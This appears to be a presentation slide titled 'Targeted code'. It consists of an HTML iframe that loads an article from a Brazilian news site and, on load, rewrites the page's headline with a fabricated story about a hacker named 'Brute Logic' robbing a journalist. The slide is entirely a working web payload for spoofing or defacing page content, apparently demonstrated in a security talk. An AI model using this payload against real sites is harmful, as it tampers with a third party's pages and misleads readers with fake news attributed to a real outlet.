

# Targeted code
<iframe
src="//www.tribunahoje.com/noticia/148537/entretenimento/2015/07/17/prejuizo-hacker-rouba-verdadeira-fortuna-de-jornalista-global.html"
style="border:0;position:absolute;top:0;left:0;right:0;bottom:0;width:100%;height:100%"
onload="parent.frames[0].document.getElementsByTagName('h1')[1].innerHTML='Prejuizo! Hacker conhecido como \'Brute Logic\' rouba verdadeira fortuna de jornalista global'">